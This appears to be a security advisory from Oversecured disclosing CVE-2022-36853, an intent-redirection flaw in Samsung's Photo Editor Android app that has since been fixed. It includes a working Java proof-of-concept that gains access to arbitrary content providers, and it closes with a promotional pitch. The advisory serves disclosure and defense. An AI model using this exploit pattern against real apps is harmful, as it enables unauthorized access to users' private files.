

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Photo Editor</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.sec.android.mimage.photoretouching</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.04.01</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.09.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-36853">CVE-2022-36853</a> (SVE-2022-0815)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$860</td>
    </tr>
</table>

# Description

Oversecured report:


The app passed the attacker's intent to `Activity.setResult()`, which led to interception of access to arbitrary content providers with `android:grantUriPermissions="true"` that the app had access to.

**Proof of Concept**

Also, the user had to manually press the Back button so that the attacker's intent would be passed back.

```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    Intent i = new Intent();
    i.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION
            | Intent.FLAG_GRANT_WRITE_URI_PERMISSION
            | Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
            | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION);
    i.setClassName("com.sec.android.mimage.photoretouching", "com.sec.android.mimage.photoretouching.SPEActivity");
    i.setClipData(ClipData.newRawUri("", MediaStore.Images.Media.EXTERNAL_CONTENT_URI));
    i.putExtra("message_service", true);
    i.putExtra("service", "decoration");
    i.putExtra("filepath", MediaStore.Images.Media.EXTERNAL_CONTENT_URI);
    startActivityForResult(i, 0);
}

@Override
protected void onActivityResult(int requestCode, int resultCode, Intent data) {
    super.onActivityResult(requestCode, resultCode, data);
    Log.d("evil", "Flags: " + data.getFlags());
    Log.d("evil", "Uri: " + data.getClipData().getItemAt(0).getUri());
}
```

## References

- [Oversecured Blog. Gaining access to arbitrary* Content Providers](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.